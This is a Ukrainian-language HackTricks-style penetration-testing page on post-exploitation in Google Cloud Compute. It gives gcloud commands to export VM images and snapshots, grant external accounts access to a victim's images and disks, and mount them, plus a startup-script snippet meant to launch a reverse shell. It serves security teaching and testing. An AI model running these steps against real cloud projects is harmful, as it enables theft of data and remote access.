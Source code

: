# GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережі) перегляньте:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Експорт та перевірка зображень локально

Це дозволить зловмиснику **отримати доступ до даних, що містяться в уже існуючих зображеннях** або **створити нові зображення працюючих ВМ** та отримати доступ до їхніх даних без доступу до працюючої ВМ.

Можливо експортувати зображення ВМ у бакет, а потім завантажити його та змонтувати локально за допомогою команди:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Для виконання цієї дії атакуючий може потребувати привілеїв над сховищем та, безумовно, **привілеїв над cloudbuild**, оскільки це **сервіс**, який буде запитано для виконання експорту.\
Більше того, для цього кодування SA та compute SA потрібні привілейовані дозволи.\
Сервісний обліковий запис cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` потребує:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

А сервісний обліковий запис `<project-id>-compute@developer.gserviceaccount.com` потребує:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Експорт та перевірка знімків і дисків локально

Неможливо безпосередньо експортувати знімки та диски, але можливо **перетворити знімок на диск, диск на образ** і, слідуючи **попередньому розділу**, експортувати цей образ для перевірки локально.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Інспекція зображення, створюючи VM

З метою доступу до **даних, збережених у зображенні** або всередині **запущеного VM**, з якого зловмисник **створив зображення,** можливо надати зовнішньому обліковому запису доступ до зображення:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
і потім створіть нову VM з цього:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Якщо ви не могли надати доступ до вашого зовнішнього облікового запису через зображення, ви могли б запустити VM, використовуючи це зображення в проекті жертви та **змусити метадані виконати зворотний шелл** для доступу до зображення, додавши параметр:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Інспекція знімка/диска, приєднуючи його до ВМ

З метою доступу до **даних, збережених на диску або знімку, ви можете перетворити знімок на диск, диск на образ і слідувати попереднім крокам.**

Або ви можете **надати зовнішньому обліковому запису доступ** до диска (якщо початковою точкою є знімок, надайте доступ до знімка або створіть диск з нього):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Прикріпіть диск** до екземпляра:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Змонтуйте диск всередині VM:

1.  **SSH у VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Визначте диск**: Після входу у VM визначте новий диск, перерахувавши дискові пристрої. Зазвичай ви можете знайти його як `/dev/sdb`, `/dev/sdc` тощо.
3.  **Форматування та монтування диска** (якщо це новий або сирий диск):

- Створіть точку монтування:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Змонтируйте диск:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Якщо ви **не можете надати доступ до зовнішнього проекту** до знімка або диска, вам, можливо, потрібно буде **виконати ці дії всередині екземпляра в тому ж проекті, що й знімок/диск**.

{{#include ../../../banners/hacktricks-training.md}}
